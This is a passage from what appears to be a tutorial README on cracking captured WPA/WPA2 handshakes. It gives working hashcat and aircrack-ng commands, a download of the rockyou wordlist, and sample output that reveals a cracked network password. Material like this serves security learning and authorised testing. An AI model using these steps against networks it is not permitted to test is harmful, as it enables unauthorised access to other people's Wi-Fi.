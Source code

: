 ```bash
# download
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# download the 134MB rockyou dictionary file
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt

# crack ! baby ! crack !
# 2500 is the hashcat hash mode for WPA/WPA2
HASH_FILE=hackme.hccapx POT_FILE=hackme.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

Naive-hashcat uses various [dictionary](https://hashcat.net/wiki/doku.php?id=dictionary_attack), [rule](https://hashcat.net/wiki/doku.php?id=rule_based_attack), [combination](https://hashcat.net/wiki/doku.php?id=combinator_attack), and [mask](https://hashcat.net/wiki/doku.php?id=mask_attack) (smart brute-force) attacks and it can take days or even months to run against mid-strength passwords. The cracked password will be saved to hackme.pot, so check this file periodically. Once you've cracked the password, you should see something like this as the contents of your `POT_FILE`:

```
e30a5a57fc00211fc9f57a4491508cc3:9c5c8ec9abc0:acd1b8dfd971:ASUS:hacktheplanet
```

Where the last two fields separated by `:` are the network name and password respectively.

If you would like to use `hashcat` without `naive-hashcat` see [this page](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2) for info.

#### Cracking With Aircrack-ng

Aircrack-ng can be used for very basic dictionary attacks running on your CPU. Before you run the attack you need a wordlist. I recommend using the infamous rockyou dictionary file:

```bash
# download the 134MB rockyou dictionary file
curl -L -o rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

Note, that if the network password is not in the wordfile you will not crack the password.

```bash
# -a2 specifies WPA2, -b is the BSSID, -w is the wordfile
aircrack-ng -a2 -b 9C:5C:8E:C9:AB:C0 -w rockyou.txt hackme.cap
```

If the password is cracked you will see a `KEY FOUND!` message in the terminal followed by the plain text version of the network password.

```
                                 Aircrack-ng 1.2 beta3


                   [00:01:49] 111040 keys tested (1017.96 k/s)


                         KEY FOUND! [ hacktheplanet ]


      Master Key     : A1 90 16 62 6C B3 E2 DB BB D1 79 CB 75 D2 C7 89 
                       59 4A C9 04 67 10 66 C5 97 83 7B C3 DA 6C 29 2E 

      Transient Key  : CB 5A F8 CE 62 B2 1B F7 6F 50 C0 25 62 E9 5D 71 
                       2F 1A 26 34 DD 9F 61 F7 68 85 CC BC 0F 88 88 73 
                       6F CB 3F CC 06 0C 06 08 ED DF EC 3C D3 42 5D 78 
                       8D EC 0C EA D2 BC 8A E2 D7 D3 A2 7F 9F 1A D3 21 

      EAPOL HMAC     : 9F C6 51 57 D3 FA 99 11 9D 17 12 BA B6 DB 06 B4 
```